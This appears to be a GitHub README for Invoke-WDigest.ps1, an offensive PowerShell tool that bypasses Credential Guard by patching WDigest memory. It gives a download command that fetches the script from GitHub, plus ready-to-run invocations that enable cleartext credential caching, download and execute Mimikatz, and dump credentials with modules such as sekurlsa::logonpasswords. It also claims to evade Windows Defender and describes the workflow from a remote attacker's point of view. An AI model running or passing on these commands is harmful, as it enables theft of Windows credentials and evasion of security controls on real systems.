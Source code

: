 ## Invoke-WDigest.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WDigest](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/Invoke-WDigest.ps1)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|Credits: @wh0nsq, @BenjaminDelpy|

<br />

|Parameter|Description|Defaul value|
|---|---|---|
|WDigest|Activate WDigest credential caching in Memory?|<b><i>true</i></b>|
|ManyCats|Switch that downloads\executes Mimikatz to dump credentials *|<b><i>false</i></b>|
|RunAs|Switch that prompts user for credential input and store it in memory|<b><i>false</i></b>|
|DcName|Switch of RunAs command that accepts USER@DOMAIN or DOMAIN\USER<br />Remark: this function requires <b><i>-RunAs</i></b> parameter switch declaration|<b><i>$Env:COMPUTERNAME\\$Env:USERNAME</i></b>|
|Module|Mimikatz selection of dump::modules to auto-run|<b><i>sekurlsa::wdigest exit</i></b>|

<b><i>* Invoke-WDigest.ps1 cmdlet only bypasses mimikatz detection if windows defender its the only AV running in target system.</i></b><br />


<br />

**download Invoke-WDigest.ps1:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.ps1" -OutFile "Invoke-WDigest.ps1"
```

<br />

**run cmdlet:**
```powershell
# Cmdlet help
Get-Help .\Invoke-WDigest.ps1 -full

# Execute Mimikatz (interactive shell) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats

#  Ativate WDigest caching + Execute Mimikatz 'sekurlsa::wdigest exit'
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats

# Ativate WDigest caching + Execute Mimikatz 'net::group sekurlsa::wdigest sekurlsa::logonpasswords' multiple dump modules.
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::logonpasswords sekurlsa::dpapi'


[FAST DEMONSTRATION]

## WDigest caching + dump (-runas) created credential with mimikatz
.\Invoke-WDigest.ps1 -WDigest 'true' -manycats -runas

WORKFLOW
   - Invoke-WDigest.ps1 Ativates WDigest caching in memory
   - Invoke-WDigest.ps1 prompts user to enter credential to start cmd.exe
   - WDigest will store (runas) credential input by user in clear-text in memory
   - mimikatz will auto-execute 'mimikatz sekurlsa::wdigest exit' to dump credentials

REMARK
   RunAs parameter switch allows me to pause this cmdlet execution until
   one credential its inputed, then starts cmd.exe with suplied credential
   in a minimized windows (detach from parent). Child process its necessary
   for mimikatz 'sekurlsa::wdigest' to dump the credential from Memory.
   
   [Downside] Cmdlet does not continue execution while the credential its not input, from one
   remote atacker point of view thats bad ( cmdlet execution paused because of -runas command )
```

<br />

![poc](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.png)

<br />

![poc](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest2.png)

<br />

![ProactiveDefense](https://user-images.githubusercontent.com/23490060/219057639-902cc82a-43a3-4391-9927-4b55e532a78c.png)



<br />

<b><i>REMARK:Invoke-WDigest.ps1 cmdlet only bypasses mimikatz detection if windows defender its the only AV running in target system ..</i></b>
